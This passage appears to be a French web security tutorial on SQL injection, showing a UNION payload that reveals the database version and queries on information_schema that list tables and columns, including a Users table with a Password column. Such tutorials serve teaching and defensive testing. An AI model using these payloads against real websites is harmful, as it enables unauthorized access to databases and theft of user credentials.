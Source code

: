Par exemple, vous pouvez utiliser une UNIONattaque avec l'entrée suivante :

```sql
' UNION SELECT @@version--
```

Cela peut renvoyer une sortie comme celle-ci, confirmant que la base de données est Microsoft *SQL Server* et la version utilisée :

```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```


##### Lister le contenu de la base de données

La plupart des types de bases de données (à l'exception notable d'*Oracle*) ont un ensemble de vues appelé schéma d'informations qui fournissent des informations sur la base de données.

Vous pouvez interroger information_schema.tablespour répertorier les tables de la base de données :

```sql
SELECT * FROM information_schema.tables
```

Cela renvoie une sortie comme suit :

```
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE
=====================================================
MyDatabase dbo Products BASE TABLE
MyDatabase dbo Users BASE TABLE
MyDatabase dbo Feedback BASE TABLE
```

Cette sortie indique qu'il existe trois tables, appelées `Products`, `Users`, et `Feedback`.

Vous pouvez ensuite interroger `information_schema.columns` pour répertorier les colonnes dans des tables individuelles :

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

Cela renvoie une sortie comme suit :

```
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE
=================================================================
MyDatabase dbo Users UserId int
MyDatabase dbo Users Username varchar
MyDatabase dbo Users Password varchar
```

Cette sortie affiche les colonnes de la table spécifiée et le type de données de chaque colonne.

Équivalent au schéma d'information sur *Oracle*
Sur *Oracle*, vous pouvez obtenir les mêmes informations avec des requêtes légèrement différentes.
